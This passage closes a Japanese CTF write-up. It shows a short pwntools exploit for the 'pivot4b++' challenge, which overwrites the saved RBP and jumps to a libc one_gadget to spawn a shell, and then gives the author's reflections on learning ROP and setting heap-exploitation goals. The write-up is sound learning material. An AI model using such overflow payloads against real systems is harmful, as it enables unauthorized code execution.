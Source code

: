 ```python
# overwrite saved-rbp for one_gadget, then jump to the address of one_gadget
payload = b'A'*48 + p64(elf.bss()+0x200) + p64(libc.address + 0xebd3f)
p.sendafter(b'> ', payload)
p.interactive()
```

## 最後に
正直`pivot4b++`がなぜこのコードで解けるのかを詳細に理解していない。  
去年のSECCON Beginnersのwriteupを見返してみたが、去年よりは成長していると実感した。  
去年はROPとか一ミリも分からなかったし、pwntoolsとかも使っていなかった。  
今年の目標はStack-basedなexploitの強化と、Heap-basedなexploitの学習を目指したい。  
